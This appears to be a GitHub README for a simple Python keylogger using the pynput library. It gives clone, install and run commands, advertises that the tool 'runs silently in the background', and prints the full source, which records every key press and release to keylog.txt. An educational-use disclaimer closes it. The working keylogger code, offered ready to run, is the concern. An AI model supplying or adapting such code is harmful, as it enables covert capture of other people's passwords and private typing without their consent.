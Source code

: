 🔑 Keylogger in Python 🖥️
📌 About
This is a basic keylogger built using Python and pynput library. It records all keystrokes and logs them into a file named keylog.txt. The keylogger runs in the background and captures both normal and special keys.

🚀 Features
✅ Logs all keystrokes (letters, numbers, and symbols)
✅ Records special keys (Enter, Space, Backspace, etc.)
✅ Stores keystrokes in a log file (keylog.txt)
✅ Runs silently in the background
✅ Safe exit by pressing ESC

🛠️ Installation
1️⃣ Clone the Repository:

bash
Copy
Edit
git clone https://github.com/Kalyan16114421/KeyLogger
cd keylogger-python
2️⃣ Install Dependencies:

bash
Copy
Edit
pip install pynput
3️⃣ Run the Keylogger:

bash
Copy
Edit
python keylogger.py
🛑 How to Stop the Keylogger?
🚀 Press ESC key to safely stop the keylogger.
🛑 Alternatively, use Ctrl + C in the terminal to force stop it.
🔴 If running in the background, end "Python" process via Task Manager.

📜 Code Implementation
python
Copy
Edit
from pynput import keyboard

def on_press(key):
   try:
      print(f"Alphanumeric key '{key.char}' pressed") # Print to terminal
      with open("keylog.txt", "a") as f:
         f.write(f"Alphanumeric key '{key.char}' pressed\n")
   except AttributeError:
      print(f"Special key '{key}' pressed") # Print to terminal
      with open("keylog.txt", "a") as f:
        f.write(f"Special key '{key}' pressed\n")

def on_release(key):
   print(f"'{key}' released") 
#print to terminal
   with open("keylog.txt", "a") as f:
      f.write(f"'{key}' released\n")

   if key == keyboard.Key.esc:
    # Stop listener
      return False

# Collect events until released
with keyboard.Listener(
on_press=on_press,
on_release=on_release) as listener:
    listener.join()
    ⚠️ Disclaimer
🛑 This project is for educational purposes only.
🔴 Unauthorized use of keyloggers is illegal. Use it responsibly.
